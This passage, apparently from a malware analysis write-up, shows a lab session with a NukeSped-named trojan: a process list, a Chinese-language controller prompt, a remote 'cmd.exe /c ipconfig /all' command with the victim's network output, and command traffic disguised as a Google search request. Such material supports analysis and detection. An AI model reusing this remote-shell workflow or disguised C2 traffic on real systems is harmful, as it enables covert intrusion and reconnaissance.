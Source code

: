 ```plain
svchost.exe                   1136 Services                   0     13,068 K
VGAuthService.exe             1300 Services                   0      5,396 K
taskhost.exe                  1384 Console                    1      9,516 K
vm3dservice.exe               1468 Services                   0      3,720 K
vmtoolsd.exe                  1500 Services                   0     17,220 K
dwm.exe                       1512 Console                    1     66,216 K
vm3dservice.exe               1520 Console                    1      4,704 K
explorer.exe                  1552 Console                    1     71,684 K
svchost.exe                   1956 Services                   0      4,432 K
vmtoolsd.exe                  1220 Console                    1     26,444 K
WmiPrvSE.exe                  1832 Services                   0     18,108 K
dllhost.exe                   1636 Services                   0      9,500 K
msdtc.exe                     2236 Services                   0      6,096 K
SearchIndexer.exe             2528 Services                   0     38,948 K
svchost.exe                   2420 Services                   0     17,248 K
svchost.exe                   1040 Services                   0     35,604 K
ProcessHacker.exe             3452 Console                    1     31,608 K
taskhost.exe                  3616 Console                    1     16,824 K
iFlyInput.exe                  292 Console                    1     48,404 K
iFlyPlatform.exe              1284 Console                    1     13,888 K
NukeSped_1.exe                2156 Console                    1      4,920 K
cmd.exe                       1360 Console                    1      3,216 K
conhost.exe                   3440 Console                    1      8,996 K
tasklist.exe                  2852 Console                    1      6,536 K

33指令-请输入需执行的命令：quit-返回上层指令
>cmd.exe /c ipconfig /all
HTTP/1.1 200 OK
Content-Type: text/html
Sec-Fetch-Mode: 33
Content-Length: 25


GET http://www.google.com/search?q&cp=0&xssi=t&hl=en&authuser=1&nolsbt=1&dpr=1 HTTP/1.1
Sec-Fetch-Mode: 30
Content-Length: 00002322
Connection: keep-alive



Windows IP 配置

   主机名  . . . . . . . . . . . . . : WIN-JMKXXXXXOT
   主 DNS 后缀 . . . . . . . . . . . :
   节点类型  . . . . . . . . . . . . : 混合
   IP 路由已启用 . . . . . . . . . . : 否
   WINS 代理已启用 . . . . . . . . . : 否
   DNS 后缀搜索列表  . . . . . . . . : localdomain

以太网适配器 Bluetooth 网络连接:

   媒体状态  . . . . . . . . . . . . : 媒体已断开
   连接特定的 DNS 后缀 . . . . . . . :
   描述. . . . . . . . . . . . . . . : Bluetooth 设备(个人区域网)
   物理地址. . . . . . . . . . . . . : 34-XX-XX-XX-58-A2
   DHCP 已启用 . . . . . . . . . . . : 是
   自动配置已启用. . . . . . . . . . : 是

以太网适配器 本地连接:

   连接特定的 DNS 后缀 . . . . . . . : localdomain
   描述. . . . . . . . . . . . . . . : Intel(R) PRO/1000 MT Network Connection
   物理地址. . . . . . . . . . . . . : 00-0C-XX-XX-2F-B1
```
